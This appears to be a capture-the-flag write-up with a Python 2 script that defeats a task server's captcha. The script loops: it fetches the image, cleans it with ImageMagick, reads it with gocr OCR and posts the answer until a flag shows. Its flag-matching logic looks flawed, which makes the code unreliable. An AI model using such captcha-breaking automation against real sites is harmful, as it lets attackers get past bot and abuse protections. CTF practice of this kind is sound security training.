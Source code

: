 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d159f4ee-23a3-4b42-8342-d9ec67d040bd)

```python
import os, requests, commands, re

s = requests.session()
url = "http://62.173.140.174:16036/"
s.get(url + "image.php")
while True:
	open('captcha.png', 'wb').write( s.get(url + "image.php").content )
	os.system('convert captcha.png -compress none -threshold 16% img.png')
	captcha = commands.getoutput("gocr -i img.png").strip()
	print captcha
	response = s.post(url + "image.php", {'answer' : captcha}).text
	print response
	flag = re.findall('CODEBY', response)[0].rstrip()
	if not str(flag).isdigit():
		print "[+] Flag: %s" %flag
		break
	print "[%s] Sending Captcha=%s ... "%(flag, captcha)
```
```
sudo apt install gocr
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/db2ad7f7-907d-46e0-a020-b12d095f9775)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5f0f7ceb-c9c1-41f9-88b3-945174cf638a)
